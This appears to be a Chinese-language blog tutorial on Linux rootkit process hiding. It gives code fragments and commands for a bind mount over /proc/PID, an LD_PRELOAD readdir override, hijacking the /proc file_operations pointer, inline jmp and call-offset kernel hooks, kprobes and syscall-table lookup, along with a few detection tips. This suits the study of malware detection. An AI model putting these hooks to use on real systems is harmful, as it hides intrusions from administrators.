




恶意程序的目的无外乎以下四种：
1. 权限提升
2. 远程控制
3. 资源消耗
4. 信息窃取

而恶意程序只有在运行起来后才是有害的，并不是说一个危险程序放在那就是有害的，那只能叫做潜在威胁。而这些能够执行的恶意程序大概分类也就是三种：
* 应用级
* 内核级
* 硬件级

> 以下研究皆无需重编译内核。 

## 应用级 --> 进程隐藏

目的：让`ps`，`top`之类的命令无法查到相关进程
> 简单的替换或者修改进程名这种手段就不值得提起，检测上无非就是MD5之类的恒定值对比

### 隐藏`/proc/PID`文件夹

`/proc`是一个`伪文件系统`，只存在在内核中，不占用外存空间，以文件系统的方式为访问系统内核数据的操作提供接口，而在`/proc`中，每一个进程都有一个相应的文件，以`PID号`命名。而`ps`，`top`等命令都是针对`/proc`下的文件夹做查询从而输出结果，因此，只需要隐藏进程对应的文件，即可达到隐藏进程的目的。
创建一个空文件夹
```
mkdir .hidden
```
挂载此目录到对应的`/proc/PID`下
```
mount -o bind .hidden /proc/PID
```
检测方式
```
cat /proc/$$/mountinfo
```
### 劫持lib库

劫持lib库也就是众所周知的`LD_PRELOAD`攻击方式
```
The answer is LD_PRELOAD, this is a environment variable for GUN-Linker.It is used to indicated some pre-load shared libraries.This meaning that functions in this libraries will get a higher priority than normal libraries.Normally, we use this technique just want to intercept some functions.So we can do some other thing( evil thing?)above the original function.
```
关于库的详细信息可以看[Linux动态库剖析](https://www.ibm.com/developerworks/cn/linux/l-dynamic-libraries/index.html)
简单来说就是：
* 库用于打包函数，然后打包的函数就可以被开发的人员直接使用
* linux分为静态库和共享库(动态库)，区别是动态库在加载应用程序时候才被加载
* 程序的运行有一个对于动态链接库的操作过程，其中涉及到函数地址的获取

通过`ldd`命令可以查看`ps`程序的工作流程，这是一个帮助查看`ELF(可执行文件)`对象的工具，能够展示`依赖项`和`共享库`。
```
#ldd /bin/ps
 linux-vdso.so.1 (0x00007ffe1d9e0000)
 libprocps.so.7 => /usr/lib/libprocps.so.7 (0x00007fb2ae80f000)
 libc.so.6 => /usr/lib/libc.so.6 (0x00007fb2ae64b000)   //GUN C库
 libsystemd.so.0 => /usr/lib/libsystemd.so.0 (0x00007fb2ae5bf000)
 libdl.so.2 => /usr/lib/libdl.so.2 (0x00007fb2ae5ba000) //DL API
 /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fb2aecac000)  //动态链接器
 libpthread.so.0 => /usr/lib/libpthread.so.0 (0x00007fb2ae599000)
 librt.so.1 => /usr/lib/librt.so.1 (0x00007fb2ae58f000)
 liblzma.so.5 => /usr/lib/liblzma.so.5 (0x00007fb2ae367000)
 liblz4.so.1 => /usr/lib/liblz4.so.1 (0x00007fb2ae348000)
 libgcrypt.so.20 => /usr/lib/libgcrypt.so.20 (0x00007fb2ae229000)
 libgpg-error.so.0 => /usr/lib/libgpg-error.so.0 (0x00007fb2ae009000)
```
可以看到`ps`命令使用了上面的这些`动态库`，而可以通过`nm -D /usr/lib/libc.so.6`来查看一个C库中提供的函数符号。而程序对于`动态库`存在一个加载顺序，因此攻击的思路就是在`ps`加载真正的函数之前就先把函数给替换掉。
Linux提供了一个接口`LD_PRELOAD`，这是系统的一个`环境变量`，其配置文件是`/etc/ld.so.preload`，二者通过`动态链接器`来实现关联。`LD_PRELOAD`作用是影响进程运行时的链接，它允许用户自定义在进程运行前优先加载的`动态链接库`，其目的就是为了有选择性的载入不同`动态链接库`中的相同函数，而通过此环境变量，攻击者就可以在主进程和`动态链接库`之间优先插入自己的库，然后将正常的`函数库`覆盖。
LD_PRELOAD攻击思路：
1. `export LD_PRELOAD=/path/xxx.so`设置优先加载的`动态链接库`
2. 将`动态链接库`写入配置文档`/etc/ld.so.preload`中
3. 修改`动态链接器`(文件名不一定)

利用第一种方式，写一个`demo`然后按照`PID`隐藏指定的进程。
> 这儿得看一下`ps`的具体实现，才能知道去修改哪个函数，`which ps`然后`pacman -Qo /usr/bin/ps`(`dpkg -S /usr/bin/ps`)查看到底属于哪个包，查看包源码即可，但是太麻烦了，`ps`使用的是`readdir`函数

因为要重写`readdir`函数，因此取参以及返回类型要完全相同
```
#include <dirent.h>
struct dirent *readdir(DIR *dirp){
  //TODO
}
```
还要在代码中定义好`DIR类型`的结构体
```
#define __libc_lock_define(CLASS,NAME)
struct __dirstream
   {
    void *__fd;
    char *__data;
    int __entry_data;
    char *__ptr;
    int __entry_ptr;
    size_t __allocation;
    size_t __size;
     __libc_lock_define (, __lock)
   };
typedef struct __dirstream DIR;
```
在程序调用我们`假的readdir`函数时，函数内部去调用真正的`readdir`获取到结果，用相同的结构去存储结果
```
#include <dlfcn.h>
typeof(readdir) *truereaddir;
truereaddir = dlsym(RTLD_NEXT, "readdir");  //获取到指定动态链接库中的符号地址
struct dirent *content;
content = truereaddir(dirp);
```
针对这个`content`做如下操作：
1. 判断当前进程是否打开的是`/proc`
```
int dirnamefd(DIR *dirp,char *filter_path){

  int fd = dirfd (dirp);
  if(fd == -1){
    return 0;
  }

  char path[128]={0};
  sprintf (path, "/proc/self/fd/%d",fd);

  ssize_t kk = readlink (path, filter_path, sizeof (filter_path));
  if(kk == -1){
    return 0;
  }

  filter_path[kk]=0;
  return 1;
}

strcmp (path_filter,"/proc")==0
```
2. 判断获取到的文件名是否为要过滤的进程`PID`
```
strcmp(content->d_name,PID)==0
```
当都满足时，则`continue`，直接跳过针对这个文件的后续操作
```
1. gcc -shared -fPIC -o pidhidden.o newreaddir.c -ldl  //针对进程PID或者是进程名编写链接库
2. export LD_PRELOAD=/home/lang/Desktop/pidhidden.o  //导入环境变量
```
此时看一下`ps`命令的链接库加载顺序
```
ldd /usr/bin/bash
 linux-vdso.so.1 (0x00007ffcd03e8000)
 /home/lang/Desktop/pidhidden.o (0x00007f87ab4d5000)   //恶意插入的动态链接库
 libprocps.so.7 => /usr/lib/libprocps.so.7 (0x00007f87ab27b000)
 libc.so.6 => /usr/lib/libc.so.6 (0x00007f87ab0b7000)
 libdl.so.2 => /usr/lib/libdl.so.2 (0x00007f87ab0b2000)
 libsystemd.so.0 => /usr/lib/libsystemd.so.0 (0x00007f87ab026000)
 /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f87ab71d000)
 libpthread.so.0 => /usr/lib/libpthread.so.0 (0x00007f87ab005000)
 librt.so.1 => /usr/lib/librt.so.1 (0x00007f87aaff9000)
 liblzma.so.5 => /usr/lib/liblzma.so.5 (0x00007f87aadd3000)
 liblz4.so.1 => /usr/lib/liblz4.so.1 (0x00007f87aadb4000)
 libgcrypt.so.20 => /usr/lib/libgcrypt.so.20 (0x00007f87aac95000)
 libgpg-error.so.0 => /usr/lib/libgpg-error.so.0 (0x00007f87aaa75000)
```
此刻再执行`ps`，就看不到我们指定`PID`的进程了
> 可以通过`unset LD_PRELOAD`来去掉这个环境变量，恢复正常的`动态链接库`顺序

> strace执行程序，查看`access()`项加载的配置文件，应急使用`busybox`查看具体路径，避过执行程序被修改的尴尬

###  sk13 hook 
> 用户态下的`系统调用表`hook。

暂时参照`hook系统调用`，也是走的`idt`。但是需要`/dev/kmem`的支持(或许/dev/mem也行？)，通过替换整个`sys_call_table`的地址来劫持系统调用。
* [相关资料](https://www.cnblogs.com/allyesno/archive/2007/09/21/900795.html)

## 内核级 --> 进程隐藏

> 内核级别的隐藏技术大概都和系统调用和VFS离不开关系，无非是修改了原来的系统调用或是劫持了VFS，但是再往深了说，实际上也就是劫持了内核函数。

以ps为例子，`strace ps -aux`可以看到系统调用流程，获取的信息都来源于`/proc`这一个`伪文件系统`中
* `openat`系统函数获取到`/proc`的文件句柄
* `getdents64`递归获取`/proc`下所有的文件信息
* `openat`或者`open`打开`/proc/PID/stat`，`/proc/PID/status`和`/proc/PID/cmdline`获取进程信息

### `ring1` 劫持VFS

> 可以看到上面`ps`主要就是针对`/proc`做了一个遍历，然后输出来，那么如果`/proc`下本来就没有这个`进程文件`，是不是就根本查不出来呢。

`VFS`是内核的一个抽象功能，允许不同的文件系统共存，系统中的实体文件不但依赖`VFS`共存，也依靠其协同工作，详细信息可以查看[从文件 I/O 看 Linux 的虚拟文件系统](https://www.ibm.com/developerworks/cn/linux/l-cn-vfs/index.html)，而`/proc`就是`VFS`的一个具体的实现，内核中的各种信息都在此目录下具象化。
`proc`文件系统是一个`虚拟文件系统`的实现，只存在于内存，只是以`文件系统`的方式提供`接口`以用来访问内核数据。`用户态`下可以通过`proc`来获取到内核的信息，而这些信息是动态改变的，所以只有读取`proc`文件时，`proc`文件系统才会动态的从系统内核中读取信息并提交，这些返回的文件并不是都在你的系统中存在的，取决于内核配置和装载的模块。
其下的文件形成如下：
1. 一部分目录静态形成，比如`fs`，`fb`等，这些是在系统初始化时候就挂载到`proc`目录对应的`proc_dir_entry`链表下
2. `.`和`..`子目录是当前目录和父目录的链接
3. 其余目录则是动态生成

然而针对一个`VFS`下进程信息的创建却是分类的：
1. cat命令之类直接读取进程目录下的节点文件
2. ls命令列举所有的进程目录

针对两种操作`VFS`其实是两种调用，针对节点信息的采用的是`lookup`系列函数，而针对目录读取的则是采用`readdir`，而列举目录也分为`列举`/proc`下的目录和列举某个具体进程目录，而不管是哪种方式，最后都会调用`proc_pid_instantiate`实例化进程目录

**攻击方式：劫持`回调函数`，修改返回的信息。**
> 原指针指向函数地址0x1，创建一个新函数0x2，让指针指向0x2，然后再通过新函数去调用0x1地址的函数

以`ps`读取为例，程序的实现还是列举了`/proc`的目录，因此还是针对目录的读取：

`proc文件系统`动态获取信息的接口为：
```
/*
 * The root /proc directory is special, as it has the
 * <pid> directories. Thus we don't use the generic
 * directory handling functions for that..
 */
static const struct file_operations proc_root_operations = {
 .read = generic_read_dir,
 .iterate_shared = proc_root_readdir,
 .llseek = generic_file_llseek,
};
```
而上三种文件目录的实现方式则是：
```
static int proc_root_readdir(struct file *file, struct dir_context *ctx)
{
 if (ctx->pos < FIRST_PROCESS_ENTRY) {
  int error = proc_readdir(file, ctx); //静态生成的
  if (unlikely(error <= 0))
   return error;
  ctx->pos = FIRST_PROCESS_ENTRY;
 }
 return proc_pid_readdir(file, ctx);   //动态生成的
}
```
当前系统中的所有进程在进程终止前都会存在于各种链表中，但是只有当进程处于就绪态时会被调度器调度执行，否则永远无法被调度；当进程终止时从链表中清除，从而结束其生命过程；linux中的进程有两个派系组成：内核线程，其根线程是kthreadd线程，进程号是2；用户进程，其根进程是init进程，进程号是1,1号和2号进程是并列的，在系统初始化后期由内核同时创建。而实际的遍历函数是由`proc_root_readdir`实现的，而它则是一个`file_operations`的成员`iterate_shared`
> linux里面所有的文件操作，底层都要实现一个`file_operations`，里面的成员是针对该文件的操作集，此处概念参考[linux虚拟文件系统vfs](https://www.cnblogs.com/embedded-linux/p/5663176.html)，说的简单一点就是内核用来处理各种请求的函数的地址。这个在`<linux/fs.h>`下有定义。

```
struct file_operations {
 struct module *owner;
 loff_t (*llseek) (struct file *, loff_t, int);
 ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
 ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
 ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
 ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
 int (*iterate) (struct file *, struct dir_context *);
 int (*iterate_shared) (struct file *, struct dir_context *);
 __poll_t (*poll) (struct file *, struct poll_table_struct *);
 long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
 long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
 int (*mmap) (struct file *, struct vm_area_struct *);
 unsigned long mmap_supported_flags;
 int (*open) (struct inode *, struct file *);
 int (*flush) (struct file *, fl_owner_t id);
 int (*release) (struct inode *, struct file *);
 int (*fsync) (struct file *, loff_t, loff_t, int datasync);
 int (*fasync) (int, struct file *, int);
 int (*lock) (struct file *, int, struct file_lock *);
 ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
 unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
 int (*check_flags)(int);
 int (*flock) (struct file *, int, struct file_lock *);
 ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
 ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
 int (*setlease)(struct file *, long, struct file_lock **, void **);
 long (*fallocate)(struct file *file, int mode, loff_t offset,
     loff_t len);
 void (*show_fdinfo)(struct seq_file *m, struct file *f);
#ifndef CONFIG_MMU
 unsigned (*mmap_capabilities)(struct file *);
#endif
 ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
   loff_t, size_t, unsigned int);
 loff_t (*remap_file_range)(struct file *file_in, loff_t pos_in,
       struct file *file_out, loff_t pos_out,
       loff_t len, unsigned int remap_flags);
 int (*fadvise)(struct file *, loff_t, loff_t, int);
} __randomize_layout;
```
而`proc_root_readdir`实际上就是`iterate_shared`指向的函数地址，即`file_operations->iterate_shared`，因此实现攻击上只需要把这个指针的指向改了就行。
> 老版本的内核这个函数传参中包含了一个函数，所以可以通过修改传入的函数修改逻辑，但是新版本的不行了，所以很难受，就得新研究下。

看一下`proc_pid_readdir`的实现：
```
int proc_pid_readdir(struct file *file, struct dir_context *ctx)
{
    //TODO
```
我们控制的`PID`，因此看一下是哪个参数中传进来的
```
loff_t pos = ctx->pos
iter.tgid = pos - TGID_OFFSET;
```
接着看后面有一个针对`pos`的判断，其中前置条前条件为`#define TGID_OFFSET (FIRST_PROCESS_ENTRY + 2)`
```
 if (pos >= PID_MAX_LIMIT + TGID_OFFSET)
  return 0;

 if (pos == TGID_OFFSET - 2) {
  struct inode *inode = d_inode(ns->proc_self);
  if (!dir_emit(ctx, "self", 4, inode->i_ino, DT_LNK))
   return 0;
  ctx->pos = pos = pos + 1;
 }
 if (pos == TGID_OFFSET - 1) {
  struct inode *inode = d_inode(ns->proc_thread_self);
  if (!dir_emit(ctx, "thread-self", 11, inode->i_ino, DT_LNK))
   return 0;
  ctx->pos = pos = pos + 1;
 }
```
来分析下条件：
* `PID_MAX_LIMIT + TGID_OFFSET`标志着目录遍历结束
* `TGID_OFFSET - 2`是`init`进程，进程号1
* `TGID_OFFSET - 1`是`kthread`线程，进程号是2

```
static inline bool dir_emit(struct dir_context *ctx,
       const char *name, int namelen,
       u64 ino, unsigned type)
{
 return ctx->actor(ctx, name, namelen, ctx->pos, ino, type) == 0;
}
```
结果搞了半天还是一个回调函数`ctx->actor`，继续追下去最后发现此函数来源于一个函数指针`filldir_t`，这是`filldir`函数类型
```
/*
 * This is the "filldir" function type, used by readdir() to let
 * the kernel specify what kind of dirent layout it wants to have.
 * This allows the kernel to read directories into kernel space or
 * to have different dirent layouts depending on the binary type.
 */
struct dir_context;
typedef int (*filldir_t)(struct dir_context *, const char *, int, loff_t, u64,
    unsigned);

struct dir_context {
 filldir_t actor;
 loff_t pos;
};
```
进程在`proc`目录下展示的是一个个数字组成的目录，通过`proc_fill_cache`来建立每个目录的层次结构。
```
  if (!proc_fill_cache(file, ctx, name, len,
         proc_pid_instantiate, iter.task, NULL)) {
   put_task_struct(iter.task);
   return 0;
  }
```
而在此之前则会先遍历`pid`
```
 for (iter = next_tgid(ns, iter);
      iter.task;
      iter.tgid += 1, iter = next_tgid(ns, iter)) 
```
而`next_tgid`中有一个关键函数`find_ge_pid`，若`ns`即进程存在，则填写`iter.gid`和`task_struct`结构，其中`ns`的内容是`filp->f_dentry->d_sb->s_fs_info`也就是`pid`的命名空间，系统唯一。
```
pid = find_ge_pid(iter.tgid, ns);
```
后进入到单个进程的操作逻辑中，建立单个进程的目录结构
```
char name[PROC_NUMBUF];
int len;
cond_resched();~~
if (!has_pid_permissions(ns, iter.task, HIDEPID_INVISIBLE))
   continue;
len = snprintf(name, sizeof(name), "%d", iter.tgid);  //
ctx->pos = iter.tgid + TGID_OFFSET;
if (!proc_fill_cache(file, ctx, name, len,
         proc_pid_instantiate, iter.task, NULL)) {
put_task_struct(iter.task);
   return 0;
}
```
`proc_fill_cache`负责建立一个`dentry`结构，与父目录形成层次结构，而传参中还有一个`proc_pid_instantiate`负责建立`inode`结构，并填写`inode_operations`和`file_operations`结构。
~~代码逻辑卡住，待续。。。~~
到此利用的方式就十分明显了，因为在循环中可以优先获取到每一个进程结构体`task_struct`，那么可以通过`task_struct`中的`comm`来筛选要过滤的进程，直接跳过当前的循环不进入到`proc_fill_cache()`函数中，这也就不会在`/proc`下产生目录结构体。
```
  if(strcmp("bash",iter.task->comm)==0){
   printk("Hidden process is [tgid:%d][pid:%d]:%s\n",ctx->pos,iter.task->pid,iter.task->comm);
   continue;    
  }
```
`VFS`层的劫持主要还是针对的`文件操作集`，因此首先就得先找到要劫持的操作的`函数地址`和`函数指针`，然后替换调`函数指针`指向的地址。

对于外界来说，看起来还像是在用`proc_root_readdir()`函数，但是实际上使用的是可以控制的`hack_proc_root_readdir()`函数，这点可以通过替换指针很容易做到。
```
int __init hack_kernel(void){
  printk("Kernel VFS hacked!!");
  struct file *getfile;
  struct file_operations *getfile_op;

  getfile = filp_open("/proc",O_RDONLY,0);
  if(IS_ERR(getfile)){
    printk("open proc error\n");
    return -1;
  }

  origin_proc_root = getfile->f_op->iterate_shared;
  getfile_op = getfile->f_op;
  set_addr_rw();
  getfile_op->iterate_shared = hack_proc_root_readdir;
  set_addr_ro();
  filp_close(getfile,0);

  return 0;
}
```
> 其中涉及到`内存读写保护`的问题，可以通过控制`cr0`寄存器来解决。也就是针对`cr0`寄存器的第`16`位置`0/1`操作

已经劫持了指定的`文件操作`，那就是要重写相应的`操作函数`，倘若内核开启了`CONFIG_KALLSYMS`就可以通过调用`kallsyms_lookup_name`来快速重写函数，如果没有开启的话，则只能自己重新实现该函数了，那工程量其实比较大。
> 针对VFS的劫持还有`proc_root_lookup`的劫持，这个和`proc_root_readdir`是相同的操作，因此不做过多赘述。

## ring0 Inline hook

### `Jmp`修改劫持内核函数，修改返回信息
> 下面一段信息参照[Linux内核如何替换内核函数并调用原始函数](https://blog.csdn.net/dog250/article/details/84201114)

现在的计算机基本都是`冯诺依曼式的统一存储式计算机`，即指令与数据存在一起，那就代表可以在操作系统层面任意解释内存空间的含义。
1. 将函数地址对应的物理内存映射成可写
2. 用`jmp`指令替换函数
3. 解除可写映射

> 借用一下这张图，虽然我并非完全按照这张图实现的，但是画得确实不错。



关于`jmp`的方法大概就是`近跳转(Near Jmp)`
```
jmp dst_address_offset 
```
而`dst_address_offset=目的地址 - HOOK点开始位置 - jmp指令占用地址(此命令共占用5个地址)`
> 5个地址是因为`jmp`指令占5个地址，而`hook`的目的就是把`jmp`指令替换掉原函数的开头。

首先就是获取原函数地址，这个在不讲其余办法的情况下依然优先选择`kallsyms`
```
origin_proc_pid_readdir = kallsyms_lookup_name("proc_pid_readdir");
```
为了后面卸载模块恢复，先备份将要被覆盖的前五个字节
```
unsigned char origin_readdir[5]={0};
memcpy(origin_readdir,origin_proc_pid_readdir,5);
```
构造跳转指令
```
unsigned char jmpop[5]={0xe9,0,0,0,0};
    ......
hook_offset = (unsigned long)new_proc_pid_readdir - (unsigned long)origin_proc_pid_readdir-5;
(*(unsigned long*)(jmpop+1))=hook_offset;
```
解除内存写保护后开始劫持
```
set_addr_rw();
memcpy(origin_proc_pid_readdir,jmpop,5);
set_addr_ro();
```
### Offset hook
> 基础技术都是通过覆盖原指令来进行劫持，但是这样容易通过查找`jmp`，`push ret`等指令查找出来，因此可以在不增加新的指令的情况下，直接修改offset来实现隐藏的目的。

反汇编看一下代码可以看出`proc_pid_readdir`在`proc_root_readdir`中的调用形式。
```
gef➤ disassemble proc_root_readdir
    ......
    0xc10e26b5 <+50>: call 0xc10e4c30 <proc_pid_readdir>
```
新的劫持方式的理念在于内核函数的功能逻辑一般不可能完全写在一个函数中，必然存在上下层的函数调用，比如`proc_root_readdir`->`proc_pid_readdir`，那么通过修改下层函数在上层函数中的`offset`就能使得上层函数在调用下层函数时跳到我们的新函数中。
需要的东西:
* 上层函数地址
* 劫持函数地址
* 新函数地址

```
unsigned char *fun = (char *)kallsyms_lookup_name("proc_root_readdir");  //上层函数地址
origin_proc_pid_readdir = kallsyms_lookup_name("proc_pid_readdir");  //劫持函数地址
```
`call rel32`指令占5个字节，第一个字节是`0xe8`，然后我这`fun`是个指针是4个字节长度，那么在上层函数中找到`call`指令的地址的方式就是一个循环遍历，循环次数自定义。
> 与运算是为了排除字节填充的干扰，只判断低位的一个字节。

```
unsigned int i=0;
while(1){
  if(i>512){return 0;}
  if((fun[0]&0x000000ff)==0xe8){
        //TODO
  }
  fun++;
  i++;
 }
```
当搜寻到`call`指令后就要看一下调用的`offset`算出来的地址是不是要劫持的函数地址。
```
原地址=当前地址+offset+5
```
对应的代码就是
```
call_func_addr = (int)fun+origin_offset+5;
if(call_func_addr == origin){printk("[addr]origin=%lx\n",call_func_addr);break;}
```
这时候就能确定当前地址就是我们需要的，只需要修改`call`后面的`offset`就行，与`jmp`不同的是`call`需要填充后面四个字节
```
 hook_offset = (unsigned long)new - (unsigned long)fun-5;
 fun[1]=(hook_offset&0x000000ff);
 fun[2]=(hook_offset&0x0000ff00) >> 8;
 fun[3]=(hook_offset&0x00ff0000) >> 16;
 fun[4]=(hook_offset&0xff000000) >> 24;
```
就此上层函数在执行时候就会调用我们编写的函数，要修改回来的话就是把保存的原来的offset重新覆盖进去就行。

### kprobe劫持
> 这个是存在劫持的方式的，但是我没有做出来

`kprobe`的劫持的方式个人觉得就是修改寄存器中的值，比如`handler_pre`函数的第二个参数`*regs`这是保存的触发断点前的寄存器状态，可以通过修改此时寄存器中的值来做到劫持，不过我并没有实现，因为个人感觉代价有点大。
但是还是做个简单的使用。`kprobe`有自己的一套代码格式，而且怎么说呢，这个开发的目的还是属于`内核探针/监控`一类，而非`劫持`，因此不打算深入去做。
先把框架搭好，找到要下断点的函数
```
int register_kprobe(struct kprobe *kp);
static struct kprobe kp ={
 .symbol_name = "proc_pid_readdir", 
};
```
然后定义每次到断点时候执行的操作
```
static int handler_pre(struct kprobe *p,struct pt_regs *reg){
 printk("proc_pid_readdir hook\n");
 return 0;
}
kp.pre_handler = handler_pre;
```
最后注册起来就行
```
int ret;
ret = register_kprobe(&kp);
```
这样每次执行`proc_pid_readdir`之前都会现在内核中打印`proc_pid_readdir hook`。如果此时调试的话，实际可以看到`proc_pid_readdir`的函数地址是没有变的，变的是函数开头的指令，变成了`0xcc`。
> 对于2.6的内核版本可以尝试劫持成功，因为和VFS劫持一样，`filldir`是作为参数传入的，因此在寄存器中替换掉就可以做到劫持。

### 劫持系统调用

`用户态`下我们想到的是劫持C库的`readdir`函数，但是这样只要通过新的`ps`就可以破解，那`内核态`下自然是更底层的直接劫持相关的`系统调用`，把让`系统调用`不返回我们要隐藏的进程信息即可。
> linux下读取目录信息的系统调用有`getdents`，`getdents64`，`readdir`

攻击方式：动态修改`系统调用表`劫持系统调用，过滤特定的信息。
系统调用是内核开放给用户态的一层`api`，这些`api`封装了一些内核函数，而用户态下通过调用`api`从而实现了内核函数的调用。
> 可以从`unistd.h`中看到当前内核定义好的`系统调用号`

首先找到`ps`命令中需要劫持的那个`系统调用`。
```
strace -c ps
```
进程在`/proc`下是一个个目录文件，而`ps`中读取目录文件的系统调用出现了`getdents`，因此这就是我们要劫持的系统调用。按照默认，此系统调用的系统调用号为`__NR_getdents`, 可以接着通过`unistd.h`找到系统调用号对应的函数入口`sys_getdents`，但是也不用想的那么深入，因为在`系统调用表中`，`__NR_SYSCALL`就是数组的`key`，只需要替换掉数组的值就能替换系统调用。而并不用太深入的追究`sys_getdents`是怎么实现的。

思路就很简单了:
1. 找到系统调用表
2. 替换`__NR_getdents`值为重写调用的地址
3. 重写调用判断是否需要隐藏进程，然后调用原系统调用

但是问题就来了，在`2.6`以后`sys_call_table`不再被导出了，因此如何找到系统调用表就成了一个问题。先前说过，在执行系统调用的过程中，有一个步骤就是调用了一个软中断，即`int 0x80`从而陷入内核态，此刻有一个疑问，怎么调用的`int 0x80`？
> 在`intel x86`中，中断指令是`int`，这个指令会将`cs`中的`CPL(当前进程特权级)`置为0。

系统的启动会进入到一个`保护模式`下的初始化，即`go_to_protected_mode`，其中调用了一个`setup_idt()`，这会建立一个空`中断向量表`，之后调用`trap_init()`会开始初始化`向量表`
```
static void setup_idt(void)
{
 static const struct gdt_ptr null_idt = {0, 0};
 asm volatile("lidtl %0" : : "m" (null_idt));
}
```
而`system_call`中有部分是这样的
```
call _sys_call_table(,%eax,4)
```
这就是`系统调用表`的地址，那流程也就清楚了，`系统调用表`可以从`system_call`中获取，`system_call`在`0x80中断向量表述符`中，而`0x80中断向量描述符`可以通过`IDT`偏移获取，而`IDT`基地址则是通过`IDTR`寄存器来确定的。
> 指令`lidt`和`sidt`分别用于加载和保存`IDTR`寄存器的内容

